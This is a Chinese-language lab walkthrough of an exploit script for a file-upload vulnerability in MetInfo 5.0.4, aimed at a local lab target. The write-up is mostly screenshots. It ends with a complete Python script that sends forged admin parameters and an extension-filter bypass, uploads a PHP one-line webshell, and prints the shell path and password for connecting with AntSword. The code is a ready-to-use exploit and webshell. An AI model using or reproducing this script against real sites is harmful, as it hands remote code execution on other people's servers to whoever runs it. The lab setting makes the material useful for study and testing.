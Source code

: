 # metinfo_5.0.4_file-upload漏洞利用脚本实战

- 场景：metinfo_5.0.4
- 靶机IP：192.168.200.148

#### 场景布置

- 实现该功能需要用`requests`模块，和注入点url与漏洞点vul，并创建一个请求

![](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312163522986.png)



### 构造请求参数

- 该漏洞需要传递的参数有`metinfo_admin_id`、`metinfo_admin_pass`、`met_admin_table`、`type`和`met_file_format`，把这些参数写到请求中去

  

![image-20240312164337231](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312164337231.png)

### 构造上传文件

- 由于需要利用文件上传漏洞上传木马，所以再请求的`files`中构造一句话木马文件和提交的传参

  ![image-20240312165447299](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312165447299.png)

### 发送请求

- 构造完成后发送该请求，并查看返回路径

  ![image-20240312165535184](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312165535184.png)

- 截取返回路径与url组成完整路径并显示连接密码返回给用户

  ![image-20240312170127786](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312170127786.png)

### 脚本测试

- 直接使用该脚本

  ![image-20240312170723778](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312170723778.png)

- 进入该网址并启动antsword连接

![image-20240312170753160](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312170753160.png)

![image-20240312170947338](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312170947338.png)



### 拿到shell

![image-20240312171041172](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312171041172.png)



### 源码

```python
import requests

url = "http://192.168.200.148/MetInfo5.0.4/"
vul = "admin/include/uploadify.php"

req=requests.session()
#构造请求参数
params = {
    "metinfo_admin_id":    "hecker",
    "metinfo_admin_pass":  "zz",
    "met_admin_table":     "met_admin_table#",
    "type":                "upfile",
    "met_file_format":     "jpg|pphphp"
}

# 构造上传文件
files = {
    "Filedata" : (
        'zz.php',
        b"<?php @eval($_REQUEST[777]);?>",
        "image/png"
    )
}
data = {
    "submit" : "submit"
}

# 发送请求
res=req.post(url=url+vul,params=params,files=files,data=data)

#截取返回路径拼接完整路径并与连接密码一同返回
shell_path=url+res.text[5:]
print(f"[+] Shell path: {shell_path}     Pass:777")
```

